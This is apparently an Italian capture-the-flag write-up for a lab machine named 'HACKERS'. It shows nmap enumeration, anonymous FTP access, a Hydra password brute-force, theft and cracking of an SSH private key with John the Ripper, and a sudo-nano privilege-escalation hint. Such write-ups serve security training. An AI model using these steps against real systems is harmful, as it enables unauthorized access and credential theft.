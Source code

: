 ## HACKERS

## ENUMERAZIONE
partiamo con uno scan delle porte per cercare porte aperte e i servizi che ci girano sopra.

```bash
nmap HACKERS.thm -sV -sC 
```
molto bene... abbiamo tre porte aperte andiamo sulla ftp che accetta connessioni in anonimo

## FTP
```bash
ftp Anonymous@HACKERS.THM
```
ottimo prendiamo il note che hanno lasciato

```bash
get note
```
il file dice che ci sono 2 utenti con delle password scarse 
```bash
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
```

facciamo un file user
```bash
nano user.txt
```
e aggiungiamo rcampbell gcrawford

cosa fare quando le password fanno schifo???

## BRUTE FORCE

ecco qua il mio programma preferito HYDRA

facciamo il comando 
```bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt HACKERS.THM ftp
```

ecco la password a gratis per noi :)

colleghiamoci in ftp con l'utente trovato 

```bash
ftp gcrawford@HACKERS.THM
```
```bash
ls -a
```
ecco la cartella .ssh
```bash
get id_rsa
```

controllando questa id_rsa ha un altra password....

vabbè risolviamo. crackiamola!!
```bash
ssh2john id_rsa > ssh_hash.txt
john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt
```
ed ecco la password grazie. colleghiamoci in ssh
```bash
ssh -i id_rsa gcrawford@hackers.thm
```

## privesc

vediamo cosa possiamo fare
```bash
sudo -l
```

OTTIMO ABBIAMO GRANDI POSSIBILITà(guardate gtfo.bins)
(hint: guardate i comandi di nano)

